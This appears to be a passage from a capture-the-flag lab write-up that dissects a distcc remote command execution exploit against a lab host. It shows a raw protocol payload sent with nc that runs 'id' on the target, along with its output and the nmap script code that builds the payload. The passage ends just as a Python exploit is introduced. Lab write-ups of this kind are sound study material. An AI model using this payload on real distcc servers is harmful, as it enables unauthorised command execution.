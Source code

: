 

## Beyond Root - distcc Exploit

To see what was happening, I started Wireshark and ran the distcc `nmap`
exploit again. There's some pinging, and a few test TCP streams, before
the payload shows up in TCP stream 3:

![](/img/image-20200407151950507.png)

I can see both the exploit and the response in there.

To test, I tried pasting that same string into `nc`. It worked,
returning the output of `id`:



    root@kali# nc 10.10.10.3 3632
    DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV0000000csh -c '(id)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A
    DONE00000001STAT00000000SERR00000000SOUT0000002duid=1(daemon) gid=1(daemon) groups=1(daemon)
    DOTO00000000Ncat: Connection reset by peer.



I tried changing the command, and it just hung:



    root@kali# nc 10.10.10.3 3632
    DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV0000000csh -c '(whoami)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A



Looking back at the `nmap` script, I see this block in the middle:



      local cmds = {
        "DIST00000001",
        ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
        "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
        "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
        "DOTI00000001A\n",
      }



There are two things filled in. First, 8 hex digits of the length of the
command + 10 (I'm guessin the 10 being `sh -c '(` and `')`.) Then the
command.

I wrote a quick Python script to exploit this:
